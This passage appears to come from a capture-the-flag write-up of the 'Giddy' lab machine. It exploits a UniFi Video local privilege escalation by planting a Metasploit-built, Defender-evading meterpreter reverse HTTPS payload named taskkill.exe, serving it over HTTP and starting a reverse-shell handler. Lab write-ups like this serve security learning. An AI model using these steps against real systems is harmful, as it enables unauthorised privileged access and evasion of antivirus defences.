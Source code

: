 By using searchsploit, we can find a <a href="https://www.exploit-db.com/exploits/43390">Local Privilege Escalation</a>.
{% highlight shell %}
root@kali:~# searchsploit unifi video
------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                     |  Path
                                                                                                                   | (/usr/share/exploitdb/)
------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Ubiquiti Networks UniFi Video Default - 'crossdomain.xml' Security Bypass                                          | exploits/php/webapps/39268.java
Ubiquiti UniFi Video 3.7.3 - Local Privilege Escalation                                                            | exploits/windows/local/43390.txt
------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
{% endhighlight %}

This means, if we have a permission for writting C:\ProgramData\unifi-video, We can write a file "taskkill.exe" in that folder.
By default that file does not exist. However, "Unifi Video" still tries to execute it with privileged permission when it restarts.

Payload creation:<br>
This time, to avoid antivirus, we use a Metasploit evasion module.
{% highlight shell %}
msf5 evasion(windows/windows_defender_exe) > use evasion/windows/windows_defender_exe 
msf5 evasion(windows/windows_defender_exe) > set payload windows/meterpreter_reverse_https
payload => windows/meterpreter_reverse_https
msf5 evasion(windows/windows_defender_exe) > set lport 443
lport => 443
msf5 evasion(windows/windows_defender_exe) > set lhost tun0
lhost => tun0
msf5 evasion(windows/windows_defender_exe) > set filename taskkill.exe
filename => taskkill.exe
msf5 evasion(windows/windows_defender_exe) > run

[*] Compiled executable size: 184320
[+] taskkill.exe stored at /root/.msf4/local/taskkill.exe
{% endhighlight %}

Then, we had our payload in the Phantom-Evasion directory.<br>
Next, run a simple webserver to let Giddy download the "taskkill.exe"

{% highlight shell %}
root@kali:~/.msf4/local# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
{% endhighlight %}

After that, launch a reverse shell handler with Metasploit.

{% highlight shell %}
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter_reverse_https
payload => windows/meterpreter_reverse_https
msf5 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf5 exploit(multi/handler) > set lport 443
lport => 443
msf5 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://10.10.14.23:443
{% endhighlight %}
